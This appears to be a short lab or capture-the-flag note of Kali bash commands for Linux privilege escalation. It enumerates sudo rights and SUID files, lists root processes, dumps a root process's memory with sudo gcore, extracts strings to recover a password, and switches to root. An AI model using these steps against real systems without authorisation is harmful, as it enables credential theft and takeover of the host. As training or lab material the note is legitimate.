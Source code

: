 ```bash - kali
sudo -l
```

![[Pasted image 20221115144913.png]]

```bash - kali
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![[Pasted image 20220407154438.png]]

```bash - kali
ps aux | grep root
```

![[Pasted image 20220407154514.png]]

```bash - kali
sudo -u root /usr/bin/gcore -a -o /home/$USER/output 25737
```

```bash - kali
strings /home/$USER/output.25737
```

```bash - kali
su root
```


